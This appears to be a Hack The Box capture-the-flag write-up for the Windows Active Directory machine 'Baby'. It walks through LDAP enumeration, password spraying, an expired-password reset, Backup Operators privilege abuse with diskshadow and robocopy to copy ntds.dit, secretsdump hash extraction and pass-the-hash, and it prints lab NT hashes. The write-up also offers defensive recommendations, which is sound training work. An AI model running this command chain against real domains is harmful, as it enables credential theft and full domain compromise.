

# Baby — Hack The Box (CPTS practice)

**Platform:** Hack The Box
**Difficulty:** 🟢 Easy
**OS:** Windows (Active Directory)
**Certification:** Extra practice for the CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Techniques:** Nmap · Anonymous LDAP enumeration · Initial password leaked in an AD group's description · Password spraying (`crackmapexec`) · Expired-password reset (`smbpasswd`) · Evil-WinRM · Abusing **`SeBackupPrivilege`** (Backup Operators group) · **Volume Shadow Copy** (`diskshadow`) → `ntds.dit` extraction · `secretsdump` → pass-the-hash → SYSTEM
**Language:** English — [🇪🇸 Versión en español](./Baby_Writeup_ES.md)

---

## Table of contents
1. [Reconnaissance](#1-reconnaissance)
2. [LDAP enumeration — leaked initial password](#2-ldap-enumeration--leaked-initial-password)
3. [Initial access — password spraying and password reset](#3-initial-access--password-spraying-and-password-reset)
4. [Getting a shell](#4-getting-a-shell)
   - [Privilege escalation — SeBackupPrivilege and Shadow Copy](#privilege-escalation--sebackupprivilege-and-shadow-copy)
5. [Post-exploitation and flags](#5-post-exploitation-and-flags)
6. [Lessons learned](#6-lessons-learned)
7. [Tool & command glossary](#7-tool--command-glossary)
8. [Attack flow](#8-attack-flow)

---

## 1. Reconnaissance

```bash
ping -c 1 10.129.234.71
```

> 🛠️ **`ping`** — checks host availability via ICMP. A TTL of **127** → **Windows**.


Full TCP port scan:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.234.71
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — a full SYN scan of all 65535 ports: `-sS` (stealthy), `-Pn` (ignore ping status), `--min-rate 5000` (speeds up sending), `--open` (only open ports), `-n` (no DNS resolution).


```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — a custom script that summarizes Nmap's output: IP, TTL, estimated OS, and a port list ready for the next `-p`.


> 💡 21 open ports, including **53 (DNS), 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog), 445 (SMB), 5985 (WinRM), and 9389 (ADWS)** — the classic service set of an **Active Directory domain controller**.

Version and default-script scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,49664,49668,57337,57338,57346,57700,57712 -oN Ports 10.129.234.71
```

> 🛠️ **`-sCV`** combines `-sC` (Nmap's default scripts) with `-sV` (service version detection).


```
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: baby.vl, Site: Default-First-Site-Name)
ssl-cert: Subject: commonName=BabyDC.baby.vl
rdp-ntlm-info:
  Target_Name: BABY
  NetBIOS_Domain_Name: BABY
  NetBIOS_Computer_Name: BABYDC
  DNS_Domain_Name: baby.vl
  DNS_Computer_Name: BabyDC.baby.vl
```

> 💡 Domain **`baby.vl`**, domain controller **`BabyDC`**. Nmap's `ssl-cert` and `rdp-ntlm-info` scripts reveal the full domain and host name with no extra tooling needed.

We add the domain to `/etc/hosts`:


## 2. LDAP enumeration — leaked initial password

### Why try an anonymous LDAP bind?

The LDAP protocol supports, by design, an **anonymous** authentication mode: a connection with no username or password, originally meant for public directories that should be queryable without credentials. Many domain controllers, due to legacy configuration or a hardening gap, allow this kind of bind with broad read permissions — by far the quietest possible recon path in an AD environment: it needs no credentials and triggers no failed-authentication events.

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl"
```

> 🛠️ **`ldapsearch -x`** — a command-line LDAP client; `-x` forces simple authentication (here, with no username or password, i.e. anonymous). `-b "DC=..."` sets the search's base DN to the full domain.


The server responds with no credentials asked. We filter the `dn` entries to understand the directory structure:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "dn"
```

> 🛠️ **`grep "dn"`** — filters the `dn:` (Distinguished Name) lines from the full output, showing every directory object at a glance without the noise of their other attributes.


We spot two organizational units holding user accounts: **`OU=dev`** and **`OU=it`**. We extract their login names:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "userPrincipalName"
```

> 🛠️ **`userPrincipalName`** — the LDAP attribute storing a user's login name in `user@domain` format, AD's equivalent of an email-style login.


```
Jacqueline.Barnett@baby.vl
Ashley.Webb@baby.vl
Hugh.George@baby.vl
Leonard.Dyer@baby.vl
Connor.Wilkinson@baby.vl
Joseph.Hughes@baby.vl
Kerry.Wilson@baby.vl
Teresa.Bell@baby.vl
```

### Mining free-text attributes for secrets

We don't stop at user accounts: we review the full dump looking for any mention of "password" in **any** attribute of **any** object:

```bash
ldapsearch -x -H ldap://BabyDC.baby.vl -b "DC=baby,DC=vl" | grep "password"
```

> 💡 An AD object's `description` attribute (users, groups, OUs) is free text, meant for administrative notes — and it's surprisingly common to find passwords, internal policies, or notes there that should never have been written into a field readable by anyone with directory read access.


```
description: Set initial password to BabyStart123!
```

> 💡 An AD group's description, readable anonymously, reveals the **initial password policy** the IT team assigns to new accounts — a finding that turns any "newly created, never used" account into a high-probability password-spraying target.

## 3. Initial access — password spraying and password reset

We save the username list to a file and try the leaked password against all of them:


```bash
crackmapexec smb 10.129.234.71 -u usernames -p 'BabyStart123!'
```

> 🛠️ **`crackmapexec smb -u <list> -p <password>`** — tries the same password against a list of usernames (*password spraying*) without locking accounts out from excessive individual attempts, since each account only gets **one** try.


```
[-] baby.vl\Jacqueline.Barnett:BabyStart123! STATUS_LOGON_FAILURE
...
[-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
```

### Why `STATUS_PASSWORD_MUST_CHANGE` is the key signal

A single user, **`Caroline.Robinson`** — who didn't even show up in the initial `userPrincipalName` listing pulled from LDAP — responds with a different code than everyone else. `STATUS_LOGON_FAILURE` means wrong credentials; **`STATUS_PASSWORD_MUST_CHANGE`** means the **password is correct**, but Windows flags it as expired or pending a mandatory change on first login (typical of a freshly created account that was never activated). It's an easy distinction to miss if you only look at "success/failure" instead of the exact error code.

We force the password change using that same authentication:

```bash
smbpasswd -U BABY/caroline.robinson -r baby.vl
```

> 🛠️ **`smbpasswd -U <domain>/<user> -r <server>`** — changes a domain account's password over SMB, first prompting for the old password (already known) and then the new one. It's the standard mechanism for completing a mandatory password change with no graphical access.


We validate the new password:

```bash
crackmapexec smb 10.129.234.71 -u usernames -p 'Temporal01.'
```


```
[+] baby.vl\Caroline.Robinson:Temporal01.
```

## 4. Getting a shell

```bash
evil-winrm -i baby.vl -u caroline.robinson -p 'Temporal01.'
```

> 🛠️ **`evil-winrm`** — a client for Windows Remote Management (WinRM) sessions, spiritually equivalent to SSH but for remote PowerShell.


```
dir
```


`user.txt` (34 bytes) confirmed on the desktop — first flag.

## Privilege escalation — SeBackupPrivilege and Shadow Copy

```
whoami /all
```

> 🛠️ **`whoami /all`** — combines user, groups, and privileges in one output; the mandatory first check on any new shell.


```
BUILTIN\Backup Operators
SeBackupPrivilege   Back up files and directories   Enabled
SeRestorePrivilege  Restore files and directories    Enabled
```

### What is `SeBackupPrivilege`, and why is it so powerful?


**`SeBackupPrivilege`** is a Windows privilege designed so legitimate backup software can read **any** file or directory on the system — including ones protected by NTFS ACLs that would normally block access — without needing to be Administrator. Its counterpart, **`SeRestorePrivilege`**, grants the same for writes. Being a member of the built-in **`Backup Operators`** group automatically grants both privileges, turning it into a de facto escalation vector: it can read files that would otherwise require Administrator privileges, including registry hives (`SAM`, `SYSTEM`, `SECURITY`) and, with the right approach, Active Directory's own database.

We first try the most direct route: dumping the **local** SAM and SYSTEM hives (possible thanks to `SeBackupPrivilege`, which allows `reg save` against normally restricted hives):

```
reg save hklm\sam .\sam
reg save hklm\system .\system
```

> 🛠️ **`reg save hklm\<hive> <file>`** — exports a registry branch to a file. Without `SeBackupPrivilege`, this would fail due to missing permissions on `SAM`/`SECURITY`; with it, it runs unrestricted.


```
download sam
download system
```


```bash
secretsdump.py -sam sam -system system LOCAL
```

> 🛠️ **`secretsdump.py -sam -system LOCAL`** — decrypts the SAM hive using the boot key derived from the SYSTEM hive, revealing the NT hashes of the machine's **local** accounts.


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d992faed38128ae85e95fa35868bb43:::
```

> 💡 This is the hash of the domain controller's **local Administrator** — a different account from the domain's `Administrator`, serving a different purpose (local recovery access). It's not the credential that compromises the full domain; we need to go further.

### From local SAM to `ntds.dit`: abusing the Shadow Copy service

**`ntds.dit`** is Active Directory's actual database: it holds every object in the domain, including the password hashes for **every** account. The catch is that, while the domain controller is running, that file is permanently **open and locked** by the `lsass.exe` process — not even `SeBackupPrivilege` lets you copy it directly while it's live.

The solution is the **Volume Shadow Copy Service (VSS)**: a native Windows service that creates a frozen, consistent snapshot of an entire volume, including files currently in use. Once the snapshot exists, the "frozen" `ntds.dit` inside it is **no longer** locked by any process — it's just a read-only copy of the disk's state at that instant.

We build a script for `diskshadow`, the command-line utility that automates creating and exposing shadow copies:

```bash
nano raj.dsh
unix2dos raj.dsh
```

> 🛠️ **`unix2dos`** — converts line endings from Unix (`LF`) to Windows (`CRLF`). This step is mandatory here: `diskshadow` rejects scripts with the wrong line-ending format.


```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

> 🛠️ **`.dsh` script breakdown:**
> - `set context persistent nowriters` — the shadow copy survives after `diskshadow` exits and is created without coordinating with VSS writers (faster, fine for read-only use).
> - `add volume c: alias raj` — selects the `C:` volume and gives it an internal alias (`raj`) for later reference.
> - `create` — physically generates the shadow copy.
> - `expose %raj% z:` — mounts that shadow copy as a new `Z:` drive, browsable like any other.


We upload the script to the victim:

```
upload raj.dsh
```


```
mkdir C:\Temp
mv raj.dsh C:\Temp
```


We run `diskshadow`:

```
diskshadow /s raj.dsh
```

> 🛠️ **`diskshadow /s <script>`** — runs a `.dsh` script in non-interactive mode, automating the full shadow-copy creation and exposure sequence.


```
The shadow copy was successfully exposed as z:\.
```

With `Z:` mounted, we copy `ntds.dit` from the frozen snapshot — no longer locked:

```
robocopy /b z:\windows\ntds . ntds.dit
```

> 🛠️ **`robocopy /b`** — copies in backup mode, which (like `reg save`) relies on `SeBackupPrivilege`/`SeRestorePrivilege` to read the source bypassing normal ACL checks. The file is no longer locked at this point (it's from the shadow copy), but backup mode is still needed because of `ntds.dit`'s own NTFS permissions.


```
download ntds.dit
```


With `ntds.dit` and the `SYSTEM` hive (needed to decrypt it) both downloaded, we dump **every** credential in the domain:

```bash
secretsdump.py -ntds ntds.dit -system system LOCAL
```

> 🛠️ **`secretsdump.py -ntds -system LOCAL`** — parses `ntds.dit`'s ESE database, locates the `pekList` (Password Encryption Key), decrypts it using the SYSTEM hive's boot key, and extracts every domain account's NT hash.


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
krbtgt:502:...
baby.vl\Jacqueline.Barnett:1104:...
...
```

> 🔒 Domain Administrator's real NT hash isn't published in this writeup on purpose, so anyone practicing this same box still has to complete that step themselves — the exact command to obtain it is documented above.

Pass-the-hash with the domain **Administrator**'s hash:

```bash
evil-winrm -i baby.vl -u Administrator -H '<Administrator NT hash>'
```


```
dir
```

`root.txt` confirmed on Administrator's desktop.

## 5. Post-exploitation and flags

An Administrator shell confirmed on the domain controller — full domain compromise established.

> 🔒 The exact contents of `user.txt` and `root.txt` aren't published in this writeup on purpose, so anyone practicing this same box still has to complete that last step themselves — the full path to each one is documented in §4 and §5.

## 6. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| Anonymous LDAP enumeration enabled on the DC | Port 389 | Leaks the directory structure and usernames with zero credentials |
| Initial password policy exposed in an AD group's description | `description` attribute | Lets an attacker try that password against every account in the domain |
| Domain account never activated, still using the unchanged initial password | `Caroline.Robinson` | Valid initial access via password spraying |
| Low-privilege account member of `Backup Operators` | `Caroline.Robinson` | `SeBackupPrivilege`/`SeRestorePrivilege` allow reading any file on the system, bypassing ACLs |
| Ability to create a Shadow Copy and extract `ntds.dit` from a file in use | VSS service (`diskshadow`) | Full domain credential dump with no need for additional vulnerabilities |

## Defensive recommendations

- Disable anonymous LDAP enumeration on the domain controller.
- Never store passwords, even "initial" or temporary ones, in readable attributes like an AD object's `description`.
- Enforce activation and password change for every new account within a reasonable window; periodically audit accounts with an unchanged `pwdLastSet`.
- Strictly restrict membership in the `Backup Operators` group — it's effectively equivalent to being able to read (and restore) any file on the system, registry hives and `ntds.dit` included.
- Monitor use of `diskshadow`, `vssadmin`, and access to system-volume shadow copies, especially combined with `ntds.dit` reads.
- Rotate domain credentials if `ntds.dit` is suspected to have been extracted.

## 7. Tool & command glossary

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` / `nmap` | Host discovery and port/service enumeration |
| `enum-nmap` | Custom script that summarizes Nmap's output |
| `ldapsearch -x` | A command-line LDAP client; `-x` allows a simple bind, including an anonymous one if the server permits it |
| **Anonymous LDAP enumeration** | An AD recon technique needing no credentials and triggering no failed-authentication events |
| **Mining free-text attributes** (`description`) | Looking for forgotten secrets in admin note fields on AD objects |
| `crackmapexec smb -u -p` (password spraying) | Tries the same password against many accounts, one attempt per account, avoiding lockouts |
| `STATUS_PASSWORD_MUST_CHANGE` | An SMB error code meaning correct password but a mandatory change is pending — different from an authentication failure |
| `smbpasswd -U <domain>/<user> -r <server>` | Changes an expired domain password over SMB |
| `evil-winrm` | A client for Windows Remote Management (WinRM) sessions |
| `whoami /all` | Shows the current token's user, groups, and privileges |
| **`SeBackupPrivilege`/`SeRestorePrivilege`** | Windows privileges that allow reading/writing any file bypassing NTFS ACLs, typical of backup accounts |
| `reg save hklm\<hive> <file>` | Exports a registry branch to a file; with `SeBackupPrivilege`, even restricted hives like SAM/SECURITY |
| **Volume Shadow Copy Service (VSS)** | A Windows service that creates frozen snapshots of a volume, including files currently in use |
| `diskshadow /s <script.dsh>` | Automates creating and exposing a shadow copy via a script |
| `unix2dos` | Converts Unix line endings to Windows (CRLF), a format requirement for `.dsh` scripts |
| `robocopy /b` | Copies in backup mode, relying on `SeBackupPrivilege` to bypass ACL restrictions when reading the source |
| **`ntds.dit`** | Active Directory's database; holds the hashes for every account in the domain |
| `secretsdump.py -ntds -system LOCAL` | Decrypts `ntds.dit` using the SYSTEM hive's boot key and extracts every domain hash |
| **Pass-the-hash (PtH)** | Authenticating with the NT hash directly, with no need for the cleartext password |

## 8. Attack flow



> 💡 **Why each step matters:** an anonymous LDAP bind is the mandatory first check on any DC — and it's worth reviewing not just user objects, but also group descriptions and other free-text attributes, where forgotten policies or passwords often linger. The `STATUS_PASSWORD_MUST_CHANGE` code (distinct from `STATUS_LOGON_FAILURE`) is the key signal that a password is correct but a change is required before authenticating — easy to miss if you only look at "success/failure." Once inside, `SeBackupPrivilege` always deserves a closer look: if the local dump isn't enough (the local Administrator's hash may be disabled or not the real target), the logical next step is generating a Shadow Copy to reach `ntds.dit` — the only path to **every** credential in the domain with no dependency on additional vulnerabilities.

---

*Written by [Arabot](https://github.com/Caan31) · Hack The Box · CPTS practice · 2026*
